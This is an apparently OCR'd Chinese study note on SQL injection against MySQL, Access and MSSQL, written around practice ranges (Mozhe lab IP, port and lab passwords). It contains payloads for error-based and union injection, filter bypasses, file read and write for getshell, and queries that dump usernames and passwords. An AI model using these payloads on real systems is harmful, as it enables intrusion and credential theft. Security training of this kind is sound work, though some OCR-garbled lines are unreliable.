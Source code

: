 day6

>   -   sql语法规则
>
>   >   -   select 列名 from 表名 where 条件

mysql注入

>   -   ʻ，ʼʻ，1/1，1/0
>
>   >   -   -1ʼ or 1=1 or 1=1，-1ʻ or 1=2
>
>   -    test3.php：id=(select+extractvalue(1,concat(0x7e,database(),0x7e)))+as+ss
>   -    =被过滤，替换
>
>   >   -   like
>   >   -    in：in(1)
>
>   -   and,or被过滤
>
>   >   -   ||（or） &&(and) xor
>   >   -   url编码：&&-----》%26%26
>
>   -   getshell（mysql,mssql）
>
>   >   -   两个必要条件：
>   >
>   >   >   -   1、root用户（最高权限）
>   >   >   -   2、知道绝对路径
>   >   >
>   >   >   >   -   文件上传漏洞成功利用的三个条件
>   >   >   >
>   >   >   >   >   -   1、成功上传
>   >   >   >   >   -   2、能够被解析
>   >   >   >   >   -   3、知道绝对路径
>   >   >
>   >   >   -   读取函数，写入语句
>   >   >
>   >   >   >   -   load_file('绝对路径')
>   >   >   >   -    into outfile 将查询结果导出到一个文件中,以文本方式导出数据，所以可能存 在编码不匹配的问题，==导致脏数据产生==
>   >   >   >
>   >   >   >   >   -   lines terminated by 导入数据，以这个数据作为文本文件的结束符
>   >   >   >   >   -   lines starting by 导入数据，以这个数据作为文本文件的开始符
>   >   >   >   >   -   fields terminated by 导入数据时使用某个字符作为分割符
>   >   >   >
>   >   >   >   -   into dumpfile 将查询结果导出到一个文件中，以二进制格式导出数据，不会 自动进行编码转换
>   >   >
>   >   >   -   如果导入导出的数据库字符编码不匹配，可能会导致脏数据的产生

access注入：

>   -   access靶场的密码：12345678
>   -   墨者靶场  //IP地址 : 219.153.49.228 端口 : 45523 协议 : http
>
>   >   -   要使用联合查询的话，需要接具体的表名
>
>   -   注入
>
>   >   -   流程：判断数据库类型->判断表名->判断列名->判断列名长度->查出数据
>   >   -   asp网站常用数据库access/mssql
>   >
>   >   >   -   判断数据库
>   >   >
>   >   >   >   -   and exsits (select * from msysobjects)>0 access
>   >   >   >   -   and exsits (select * from sysobjects)>0 sqlserver
>   >   >
>   >   >   -    access数据库
>   >   >
>   >   >   >   -   没有库
>   >   >   >   -   结构 表——》字段——》数据
>   >   >
>   >   >   -   逐字破解法
>   >   >
>   >   >   >   -   查表：and exists (select * from 表名)
>   >   >   >   -   查列：and exists (select 列名 from 表名) //存在就返回正常页面，不存在 就报错。
>   >   >   >   -   查数据：1.确定此条数据字段（列名）长度2.确定asc数据(asc编码)
>   >   >
>   >   >   -   access联合注入需要具体表名
>   >   >
>   >   >   >   -   爆破表名：?id=1+exists+(select * from msysobjects)
>   >   >   >   -   爆破字段名：?id=1+exists+(select id from admin)
>   >   >   >   -   进一步爆出占位符：?id=1 union select 1,2,3,4,5 from admin 
>   >   >   >   -   获取账号密码：?id=1 union select 1,username,passwd,4,5 from admin

mssql

>   -   MSSQL靶场的密码：! @12qw
>   -   基础
>
>   >   -   初始库
>   >
>   >   >   -   master
>   >
>   >   -   表
>   >
>   >   >   -   sysdatabases——》master库中 //保存所有库明 name字段 数据库名
>   >   >   -   syobjects——》每个数据库都有此表 //保存数据库中的所有表 name id  xtype=ʼUʻ代表用户建立的
>   >   >   -   syscolumns——》每个数据库中都有此表 // 保存所有表李的字段名 name  id
>   >
>   >   -    MSSQL报错语句
>   >
>   >   >   -   1-user
>   >   >   -   1/user
>   >   >   -   convert(int,user)
>   >   >   -   db_name(）
>   >
>   >   -   常用函数
>   >
>   >   >   -   user
>   >   >   -    substring
>   >
>   >   -   墨者靶场
>   >
>   >   >   -   联合注入
>   >   >
>   >   >   >   -   找数据库名union all select 1,db_name(),'3','4'  //mssql属于强类型数据， 数据类型必须一致
>   >   >   >
>   >   >   >   >   -   mozhe_db_v2
>   >   >   >
>   >   >   >   -   查表名 id=-2+union+all+select+1,name,'3','4'+from+mozhe_db_v2.dbo.sysobjects+ where+xtype='U'
>   >   >
>   >   >   -   ?id=2 order by 4--+ 查字段
>   >   >   -   查回显位：?id=-2 union all select '1','2','3','4'--+ 
>   >   >   -   用户名和数据库名：?id=-2 union all select '1',user,db_name(),'4'--+
>   >   >   -   查表名：?id=-2 union all select '1','2',(select top 1 name from  mozhe_db_v2.dbo.sysobjects where xtype='u'),'4'--+ 
>   >   >   -   查字段：?id=-2 union all select '1','2',(select quotename(name) from  mozhe_db_v2.dbo.syscolumns where id=(select id from  mozhe_db_v2.dbo.sysobjects where name='manage') FOR XML PATH('')),'4'--+ 
>   >   >   -   查数据：?id=-2 union all select '1','2',(select top 1 username,password from  mozhe_db_v2.dbo.manage FOR XML PATH('')),'4'--+

url编码

>   -   %20----空格
>   -   %0a----换行
>   -   %26----&
>   -    %27----单引号

```
GRANT ALL PRIVILEGES ON 学生, 班级 TO U1 WITH GRANT OPTION;
GRANT SELECT, DELETE ON 学生表 TO U2;
GRANT UPDATE (家庭住址) ON 学生表 TO U2;
```

